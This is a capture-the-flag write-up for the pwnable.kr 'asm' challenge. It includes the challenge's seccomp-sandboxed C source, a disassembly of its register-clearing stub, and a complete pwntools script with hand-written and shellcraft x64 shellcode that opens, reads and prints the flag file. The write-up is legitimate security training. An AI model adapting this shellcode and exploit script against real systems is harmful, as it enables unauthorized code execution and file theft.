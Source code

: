 # asm

This is my writeup for the asm level on pwnable.kr this is about writing a simple shellcode, to exploit a program.
### Disclaimer!

I changed the original flag with the custom flag "Shad3 pwnned this", it's better to exploit it yourself,
than just copy it :P.

## Enumeration

By connecting through SSH, as asm, we get 4 files, one seems to have a pretty strange name. Let's start analysing them.


```python
shad3@zeroday:~$ ssh asm@pwnable.kr -p2222
asm@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have new mail.
Last login: Thu Apr 23 04:51:21 2020 from 58.221.239.93
asm@pwnable:~$ ls
asm
asm.c
readme
this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

By running the executable we do get an idea of what we must do to get the flag.

```
asm@pwnable:~$ ./asm 
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 
```

Since I dont trust what the executable says lets have a look at the source code to understand if that's true or not.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}

```
As it seems it was true that we are in jail. So lets disassemble the stub to understand what it does keep in mind that it asks for a x64 shellcode we are on x86_64 machine so will decompile it as so.

```
shad3@zeroday:~$ rasm2 -b64 -d -B `printf "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"`
xor rax, rax
xor rbx, rbx
xor rcx, rcx
xor rdx, rdx
xor rsi, rsi
xor rdi, rdi
xor rbp, rbp
xor r8, r8
xor r9, r9
xor r10, r10
xor r11, r11
xor r12, r12
xor r13, r13
xor r14, r14
xor r15, r15
shad3@zeroday

```
## Exploitation
From the disassembly its easy to understand that it just zeros-out some some registers. So lets write the shellcode that opens the flag file and prints out the string that it contains.

We have 2 choices either to code the following shellcode or use the shellcraft function from the pwnlib. I implemented both in the following script, by running that you get the flag

```python
from pwn import *

context.update(arch="amd64",os="linux",bit=64)

rssh = ssh(host="pwnable.kr",port=2222,user="asm",password="guest")
p = rssh.connect_remote("localhost",9026)

def pwn(shellcode):
    p.recvuntil("give me your x64 shellcode:")
    p.send(shellcode)
    p.interactive()
    p.close()
    

def shellcraft():
    shellcode = shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
    shellcode += shellcraft.open('rsp', 0, 0)
    shellcode += shellcraft.read('rax', 'rsp', 100)
    shellcode += shellcraft.write(1, 'rsp', 100)
    shellcode += shellcraft.exit()
    pwn(shellcode)

def hcAssembly():
    shellcode = asm("""
            xor rax,rax
            xor rdi,rdi
            xor rsi,rsi
            xor rdx,rdx
            jmp init

        open:
	        pop rdi
	        mov rax,2
	        syscall

        read:
	        mov rdi,rax
	        mov rsi,rsp
	        mov rdx,0x40
	        xor rax,rax
	        syscall

        write:
	        mov rdi,1
	        mov rdx,40
	        mov rax,1
	        syscall

        exit:
	        mov rax,0x3c
	        syscall

        init:
	        call open
	        .ascii "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
	        .byte 0                 
    """)
    pwn(shellcode)


     
while(1):
    print("There are two ways to exploit this either by hardcoded assembly (1) \n or by using pwnlib's shellcrafting")  
    selection = input()
    if (selection == 1):
        hcAssembly()
        exit(0)
    elif (selection == 2):
        shellcraft()
        
```


```python
shad3@zeroday:~/Desktop/Security/CTF/pwnable.kr/asm$python exploit.py
Shad3 pwnned this!
```